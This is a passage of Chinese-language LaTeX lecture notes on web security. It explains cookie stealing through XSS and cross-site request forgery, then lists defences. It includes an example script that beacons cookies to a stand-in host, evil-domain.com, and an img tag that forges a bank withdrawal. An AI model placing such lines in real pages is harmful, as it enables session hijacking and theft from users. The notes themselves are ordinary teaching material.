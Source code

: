 \paragraph{Cookie Stealing \& XSS} Cookie偷取 cross-site scripting attack

在同一个页面的所有JavaScript都运行在同一个domain下，有相同的path，和页面相同的协议。这表示从其他domain导入的script可以通过读取document.cookie来获得页面的cookie。

比如说从第三方evil-domain.com导入了一些有用的code，如果在evil-domain.com的家伙将代码换成下面的代码的话。
\begin{JavaScript}
(new Image()).src = "http://www.evil-domain.com/cookiestealer.php?cookie=" + cookie.domain;
\end{JavaScript}
他们就悄悄的取得了我的页面的cookie，这样他们就可以轻松的进行其他攻击，如session hijacking.

当由于导入第三方脚本造成的攻击，我们称为XSS(cross-site scripting attack).

cookie stealing不单只是因为导入了第三方脚本导致，对input缺乏过滤也可能造成cookie stealing。如果输入可以输出到一个页面，而输入中包含了 \lstinline$<script>$标签在其中，也可能导致脚本运行。


\paragraph{CSRF} Cross-site Request Forgery

攻击者让浏览器以登陆的用户做一些有害的操作。

比如说，有人在没有验证输入的论坛上面发布了一条消息。消息内容是
\begin{JavaScript}
<img src="http://bank.example/withdraw?account=bob&amount=1000000&for=mallory">
\end{JavaScript}

当你登陆银行账号之后，访问了这个页面，这个请求会被发送出去，相应的cookie会被带上。这样你就会在不知情的情况下将钱转走。


CSRF很难track，所以阻止是关键。

\begin{itemize}
\item 不要包含不守信用的domian的脚本。
\item 一定要对用户的输入过滤。
\item Require validation not just with cookies, but also by referrer and or request type (POST instead of GET).
\end{itemize}

\begin{itemize}
\item Require confirmation for any sensitive action
\item Cookies that validate users in systems with sensitive data should have a short expiration time.
\end{itemize}

